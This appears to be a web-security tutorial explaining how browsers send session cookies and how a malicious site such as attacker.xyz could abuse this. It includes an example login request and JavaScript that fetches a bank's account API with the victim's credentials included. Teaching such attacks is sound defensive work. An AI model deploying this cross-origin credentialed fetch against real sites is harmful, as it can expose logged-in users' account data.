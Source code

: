 
The main idea of our exploit is to take advantage of the browser’s behavior, because it automatically sends your session cookie with every request made to the website.

---

> First, we need to understand how the browser and session workflow work.  
> Imagine you log into your bank account normally.

The browser sends a POST with credentials (username/password) over HTTPS. Like That : 

```http
POST /login HTTP/1.1
Host: bank.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

email=yassin@gmail.com&password=Sosecret12

```

2. The server validates credentials (checks DB).
3. If credentials are valid:
	1. **Create or start a new session**
	2. **Store session data** on the server (files, DB)
	3. **Send a `Set-Cookie`** to the browser to bind the browser to the session. This is the moment the browser “knows” the user is logged in.
##### Note : 
> Now, when you try to open your bank account, you don’t need to enter your email and password again because the browser has already saved your session. It automatically sends your session cookies to the website when you try to access your account.

## How Hacker Can Exploit That ? 

Attacker Can Do a malicious site like `attacker.xyz` can place JavaScript on its page, for example code like this:

```javascript
async function tryFetchBankAsJson() {
  try {
    const resp = await fetch('https://bank.com/api/account', {
      method: 'GET',
      credentials: 'include',
      mode: 'cors'
    });

    console.log('response status:', resp.status);

    if (resp.ok) {
      try {
        const data = await resp.json();
        console.log('parsed JSON response:', data);
      } catch (parseErr) {
        console.warn('response body is not valid JSON or blocked by CORS:', parseErr);
      }
    } else {
      console.warn('non-2xx response, body may be inaccessible or contain error info');
    }
  } catch (err) {
    console.error('fetch failed or blocked (likely CORS or network issue):', err);
  }
}

tryFetchBankAsJson();

```
